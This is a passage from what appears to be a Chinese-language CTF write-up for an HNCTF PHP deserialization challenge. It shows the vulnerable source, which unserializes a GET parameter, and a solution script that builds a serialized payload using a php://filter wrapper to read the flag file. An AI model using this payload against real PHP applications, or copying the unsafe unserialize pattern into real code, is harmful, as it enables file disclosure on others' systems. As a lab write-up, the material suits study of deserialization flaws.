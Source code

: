 ```php
        public $CORE = "人类最大的敌人,就是无序. Yahi param vaastavikta hai!<BR>";
        function __sleep(){
            $About_me = "When the object is serialized,I will be called";
            echo "We Come To HNCTF,Enjoy the ser14l1zti0n <BR>";
        }
        function __toString(){
            $About_me = "When the object is used as a string,I will be called";
            return $this->CORE;
        }
    }
    
    $obj = new unserializeorder();
    echo $obj;
    $obj = serialize($obj);
    

    if (isset($_GET['ywant']))
    {
        $ywant = @unserialize(@$_GET['ywant']);
        echo $ywant;
    }
?>
```

看着很长，其实就是个`is_file`的绕过。。。根本不像反序列化

`highlight_file`可以使用php伪协议，而is_file判断是false(绕过一下wakeup)

```php
<?php 

class body{

    private $want;

    function __construct($want){
        $this->want = $want;
    }
}

class unserializeorder{
    public $CORE = "php://filter/read=convert.base64-encode/resource=f14g.php";
}

$a = new body(new unserializeorder());

echo urlencode(serialize($a));
?>
```

### easy_sql
